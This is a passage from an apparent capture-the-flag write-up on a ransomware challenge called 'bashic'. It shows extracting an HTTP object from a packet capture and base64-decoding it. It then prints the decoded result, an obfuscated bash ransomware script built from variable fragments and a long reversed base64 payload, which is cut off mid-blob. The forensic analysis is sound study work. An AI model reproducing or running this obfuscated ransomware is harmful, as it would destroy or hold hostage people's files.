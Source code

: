 Since it’s an HTTP request, we can find it if we go to File > Export Objects> HTTP…

![](bashic_ransomware_export.e895abf7.png)

After saving the content, we realise quickly that it was base64 encoded.

```
┌──(starlord㉿HAL-9090)-[~/Bureau/CTF/CyberApocalypse2023/bashic]
└─$ cat Kxr43fMD9t.manifest | base64 -d
```

Decoded content of Kxr43fMD9t.manifest:
```
gH4="Ed";kM0="xSz";c="ch";L="4";rQW="";fE1="lQ";s=" 'KkmZKkmZJoQMgQXa4VWCJoQZ5gTMUV3MidFRGB1b4VUCJogblhGdgsTXgISKnB3Z
gYXLgQmbh1WbvNGKkICI41CIbBiZplgCuVGa0ByOd1FIiIzM0MzM2kjN2cjclB3bsVmdlRmIg0TPgISKp1WYvh2doQiIgs1WgYWaKoQfKQVbuN2NyIHRzI1Vul2RxEGUuB
jdJogNvV1Q51mQQdUdHlkTNFTRQlVTNlgCNlle0J2cUNkNG5EWBNzN4hUTGVXCKsHIpgSZ5gTMUV3MidFRGB1b4VkCK0nCG9URJoQLt0SLt0SLt0SLt0SLt0SLt0SLt0SL
t0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLtkQCK4SZulGbkFWZkBycphGdgM3cp1GI09mbg8GRg4CdmVGbgMXehRGIuVGdgU
mdhhGI19WWg4ycpBSZyVGa0BCLlNnc192YgY2TJkQCK8TZulGbkFWZkBSYgUmclhGdgMXSgoSCJogLzJXZud3bgwWdmRHanlmcgMXdvlmdlJHcgMHdpByb0ByajFmYgMWa
sVmcgUGa0BibyVHdlJHI0NXdtBSdvlHIsQ3clJHIlhGdgQHc5J3YlRGIvRFIusmcvdHIm9GIm92byBHIzFGIkVGdwlncjVGZgUmYg4WYjBibvlGdjVmZulGIyVGcgUGbpZ
GIl52Tg4ycu9Wa0NWdyR3culGIyV3bgc3bsx2bmBSdvlHImlGIkVWZ05WYyFWdnBSJwATMgMXagMXZslmZgIXdvlHIn5WayVmdvNWZSlQCJowPzVGbpZGI51GIyVmdvNWZ
yByb0BydvhEIqkQCK4SeltGIlRXY2lmcwBic19GI0V3boRXa3BSZsJWazN3bw1WagMXagQXagsTblhGdgQHc5J3YlRGIvRHI5F2dgEGIk5WamByb0ByZulWeyRHIl1Wa0B
ic19WegUGdzF2dgQ3buBybEBiLkVGdwlncj5WZg4WZlJGIlZXYoBSelhGdgU2c1F2YlJGIlxmYpN3clN2YhBicldmbvxGIv5GIlJXYgMXZslmZgIXdvlHIm9GI0N3bNlQC
JowPkVmblBHchhGI0FGaXBiKJkgCFJVQX10TT5UQSBCTBlkUUNVRSJVRUFkUUhVRg4UQgklQgQURUBVWSNkTFBSRSFEITVETJZEISV1TZlQCK0SLt0SLt0SLt0SLt0SLt0
SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLt0SLJkgCG9URg0CP8ACdhNGIgACIKsHIpgCVt52Y3IjcENjUX5WaHFTY
Q5GM2pgC9pAWjdVMNdWdVZjQyUTUoREI0V2cuVXCKkgCl52bklgCpZWCgASCKwGb152L2VGZv4jMgISakICI11CIkVmcoNXCJACIJoAbsVnbvYXZk9iPyAiIpRiIgYTNyM
VRBBybnxWYtIXZoBXaj1SLgMWayRXZt1Wez1SLgADIkZWLlNXYyhGczNXYw1SLgAXY5UTYuISakICIv1CIzVWet0CIoNGdhJWLtAyZwdGI8BCWjdVMNdWdVZjQyUTUoREJ
g8GajVWCJACIJogblhGd70VXgoiIuoiIqASPhASfptHJgs1WgYWaJkgCvRWCKsjchJnLqAien5iKggnYktmLqAiZkBnLqACej9GZuoCIj9GZuoCI0hHduoCIulGIpBicvZ
```